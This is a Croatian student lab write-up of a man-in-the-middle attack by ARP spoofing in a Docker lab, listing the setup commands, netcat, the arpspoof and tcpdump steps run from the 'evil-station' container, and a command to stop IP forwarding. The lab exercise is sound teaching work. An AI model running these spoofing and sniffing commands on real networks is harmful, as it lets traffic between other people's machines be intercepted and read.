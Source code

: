 # 1. laboratorijska vježba

Reviewed: No

# ****Man-in-the-middle attack (ARP spoofing)****

Na 1. laboratorijskoj vježbi zadatak je bio realizirati Man in the middle napad. Kako bismo ga realizirali, koristili smo ranjivost ARP protokola te 3 virtualizirana Docker računala (eng. container): žrtve **station-1** i **station-2** te napadača **evil-station**. Pokrenuli smo Windows terminal te koristeći WSL (Windows Subsystem for Linux) pokrenuli Ubuntu.

Pozicionirali smo se u odgovarajući direktorij prema uputama profesora i klonirali ovaj GitHub repozitorij:

`git clone [https://github.com/mcagalj/SRP-2022-23](https://github.com/mcagalj/SRP-2022-23)`

Pomoću naredbe cd promijenili smo direktorij u onaj gdje su se nalazile skripte *start.sh* i *stop.sh* koje možemo pozvati za pokretanje/zaustavljanje virtualiziranog mrežnog scenarija:

`$ cd SRP-2022-23/arp-spoofing`

`$ ./start.sh`

`$ ./stop.sh`

`$ docker exec -it station-1 bash`

`$ ifconfig -a`

Trebalo je provjeriti je li station-2 na istoj mreži pa smo to uradili pomoću: 

`$ ping station-2`

To je bilo istinito. Pokrenuli smo shell station-2.

`$ docker exec -it station-2 bash`

Zatim smo ostvarili konekciju između station-1 i station-2 pomoću **netcat**-a.

`$ netcat -l -p 8080`

`$ netcat station-1 8080`

Sljedeći korak bio je napad. Pokrenuli smo shell za evil-station te isprobali **tcpdump** (omogućava praćenje prometa) i **arpspoof.**

`$ docker exec -it evil-station bash`

`$ arpspoof -t station-1 station-2`

`$ tcpdump` 

Mogli smo vidjeti da evil-station zapravo dobiva poruke od station-1 te ih preusmjerava k station-2. On ih dakle pročita. Da bismo zaustavili proslijeđivanje tj. prekinuli promet između station-1 i station-2, koristili smo:

`echo 0 > /proc/sys/net/ipv4/ip_forward`

